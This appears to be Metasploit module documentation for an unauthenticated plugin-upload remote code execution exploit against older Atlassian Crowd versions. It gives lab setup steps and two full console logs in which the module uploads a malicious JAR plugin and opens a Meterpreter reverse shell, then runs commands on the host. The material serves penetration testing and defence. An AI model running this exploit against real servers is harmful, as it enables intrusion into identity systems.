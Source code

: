 ## Vulnerable Application

Atlassian Crowd 2.1.x prior to 3.0.5, 3.1.x prior to 3.1.6, 3.2.x prior to 3.2.8, 3.3.x prior to 3.3.5, and 3.4.x prior to 3.4.4
had an incorrect installation of the pdkinstall development plugin, which allows unauthenticated remote attackers to upload and install
arbitrary plugins on vulnerable Atlassian Crowd and Atlassian Crowd Data Center installations via a POST request to the
`/<crowd install base>/admin/uploadplugin.action` page.

Successful exploitation results in remote code execution as the user running the Atlassian Crowd server.

To set up a vulnerable Windows 10 installation:
1. Grab a copy of Windows, any version will do but I tested on Windows 10.
1. Grab a copy of the 3.0.3 version of Atlassian Crowd from https://product-downloads.atlassian.com/software/crowd/downloads/atlassian-crowd-3.0.3.zip
1. Grab a copy of the Java 8 JDK from https://download.java.net/openjdk/jdk8u41/ri/openjdk-8u41-b04-windows-i586-14_jan_2020.zip
1. Unzip the JDK to a target directory.
1. Edit `JAVA_HOME` environment variable and set it to the location where you extracted the Java 8 JDK.
1. Update the `PATH` environment variable to include a path to the same location as `JAVA_HOME`, but with `\bin` at the end of it.
1. Extract the Atlassian Crowd zip.
1. Edit the `atlassian-crowd-3.0.3\apache-tomcat\bin\catalina.bat` file and remove all the `-Djava.endorsed.dirs` options.
1. Run `start_crowd.bat`
1. After a few minutes browse to `http://localhost:8095/crowd/` and click the blue `Set Up Crowd` button to do a new install.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.


To set up a vulnerable 3.2.1 JDK 8 Docker image:
1. `sudo docker volume create --name crowdVolume`
1. `sudo docker run -v crowdVolumeddd:/var/atlassian/application-data/crowd --name="crowd3.2.1" -d -p 8095:8095 atlassian/crowd:3.2.1-jdk8`
1. Wait for install to finish then browse to `http://localhost:8095/`.
1. Click the blue `Set Up Crowd` button to do a new install.
1. If the Docker image crashes at this point, increase the amount of memory allocated towards it. Java requires a fair bit of memory.
1. Use the default settings, including using the embedded database.
1. Browse to `http://localhost:8095/crowd/admin/uploadplugin.action`
1. *Verify* a 400 error message stating that the page requires a `POST` request is shown.

## Verification Steps

1. Follow the steps in `Vulnerable Application`
1. `use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce`
1. Set `RHOST` to the target IP
1. Set `LHOST` to your local IP
1. `exploit`
1. You should get a shell back as the user running the Atlassian Crowd application.

## Options
### REQUESTTIMEOUT
The maximum time, in seconds, to wait for requests to time out when making HTTP requests to the target server.

## Scenarios

### Atlassian Crowd 3.0.3 on Windows 10 20H2
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 192.168.224.204
RHOSTS => 192.168.224.204
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 192.168.224.128
LHOST => 192.168.224.128
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.224.204  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Cloud
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 192.168.224.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try install an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating its vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 192.168.224.204
[*] Meterpreter session 1 opened (192.168.224.128:4444 -> 192.168.224.204:53871) at 2021-07-30 11:56:38 -0500

meterpreter > getuid
Server username: test
meterpreter > pwd
C:\Users\test\Desktop\atlassian-crowd-3.0.3
meterpreter >
```

### Atlassian Cloud 3.2.1 Linux Docker Image
```
msf6 > use exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > show options

Module options (exploit/multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8095             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /crowd/          yes       The base URI to Atlassian Crowd
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.224.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Universal


msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set LHOST 172.18.0.1
LHOST => 172.18.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > check

[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] 127.0.0.1:8095 - The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
msf6 exploit(multi/http/atlassian_crowd_pdkinstall_plugin_upload_rce) > exploit

[*] Started reverse TCP handler on 172.18.0.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sending a test request to try installing an invalid plugin to see if the server is vulnerable...
[+] The target is vulnerable. Target responded that it couldn't install a invalid plugin, indicating it's vulnerable!
[*] Generating a malicious JAR plugin...
[*] Uploading the malicious JAR plugin...
[*] Sending stage (58082 bytes) to 172.18.0.2
[*] Meterpreter session 1 opened (172.18.0.1:4444 -> 172.18.0.2:39316) at 2021-08-02 10:56:47 -0500

meterpreter > sysinfo
Computer    : 3fc6d7283aaa
OS          : Linux 5.8.0-63-generic (amd64)
Meterpreter : java/linux
meterpreter > getuid
Server username: crowd
meterpreter > pwd
/opt/atlassian/crowd
meterpreter > ls
Listing: /opt/atlassian/crowd
=============================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100444/r--r--r--  1254   fil   2018-05-09 05:36:38 -0500  README.txt
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:10 -0500  apache-tomcat
100444/r--r--r--  252    fil   2018-05-09 05:36:38 -0500  build.bat
100444/r--r--r--  650    fil   2018-05-09 05:36:38 -0500  build.properties
100554/r-xr-xr--  204    fil   2018-05-09 05:36:38 -0500  build.sh
100444/r--r--r--  2847   fil   2018-05-09 05:36:38 -0500  build.xml
40554/r-xr-xr--   4096   dir   2018-05-09 06:01:28 -0500  client
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-openidclient-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:14 -0500  crowd-openidserver-webapp
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:13 -0500  crowd-webapp
40776/rwxrwxrw-   4096   dir   2021-07-30 17:03:57 -0500  database
40554/r-xr-xr--   4096   dir   2021-07-13 01:52:09 -0500  etc
40554/r-xr-xr--   32768  dir   2021-07-13 01:52:15 -0500  licenses
100444/r--r--r--  407    fil   2018-05-09 05:36:38 -0500  start_crowd.bat
100554/r-xr-xr--  324    fil   2018-05-09 05:36:38 -0500  start_crowd.sh
100444/r--r--r--  98     fil   2018-05-09 05:36:38 -0500  stop_crowd.bat
100554/r-xr-xr--  71     fil   2018-05-09 05:36:38 -0500  stop_crowd.sh

meterpreter >
```
